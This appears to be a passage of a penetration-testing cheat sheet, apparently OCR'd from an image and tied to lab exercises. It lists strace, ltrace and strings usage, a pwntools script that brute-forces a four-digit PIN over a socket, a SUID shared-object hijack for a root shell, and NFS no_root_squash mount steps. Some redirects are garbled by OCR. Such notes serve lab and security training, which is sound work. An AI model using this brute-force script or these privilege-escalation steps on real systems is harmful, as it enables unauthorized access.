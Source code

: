 	strings /path/to/file

## LTRACE

	ltrace examplebin

## STRACE
When a program is executed, it will try to load the shared objects it requires.

By using a program called **strace**, we can track these system calls and determine whether any shared objects were not found. If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

	strace /usr/local/bin/suid-so
	strace /usr/local/bin/suid-so 2	&1 | grep -iE "open|access|no such file"

	strace -v -f -e execve <command	2	&1 | grep exec

## PWN Tools
Brute force a PIN code with python and Pwn Tools

In that specific case, the script was used on top of a reverse tunneling from chisel (see Bankrobber video from Ippsec)

https://www.invidio.us/watch?v=zYmA9ECuCio

	from pwn import *

	for i in range(0,9999):
	    pin = str(i)
	    code = pin.zfill(4)

	    r = remote("localhost", 910)
	    r.recvuntil("[$]")
	    r.sendline(code)
	    response = r.recvline()
	    r.close()

	    if b"Access denied" not in response:
	        print(code)
	        break
	
https://github.com/Gallopsled/pwntools

Create an empty file in windows cli:**

	type nul > emptyfile.txt


# Pivesc
## EXPLOIT NO_ROOT_SQUASH
- Create a mount point on your local machine and mount the /tmp NFS share

		mkdir /tmp/nfs
		mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs
